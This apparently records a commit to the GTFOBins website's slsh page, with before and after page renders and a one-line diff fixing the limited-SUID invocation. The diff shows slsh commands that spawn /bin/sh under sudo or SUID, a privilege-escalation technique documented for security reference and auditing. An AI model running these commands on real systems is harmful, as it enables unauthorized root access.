

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/slsh.md, in a window 1280 px wide. Shown: the part 679-845 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fix SUID invocation

```diff
--- a/_gtfobins/slsh.md
+++ b/_gtfobins/slsh.md
@@ -5,5 +5,5 @@ functions:
   sudo:
     - code: sudo slsh -e 'system("/bin/sh")'
   limited-suid:
-    - code: slsh -e 'system("/bin/sh")'
+    - code: ./slsh -e 'system("/bin/sh")'
 ---
```
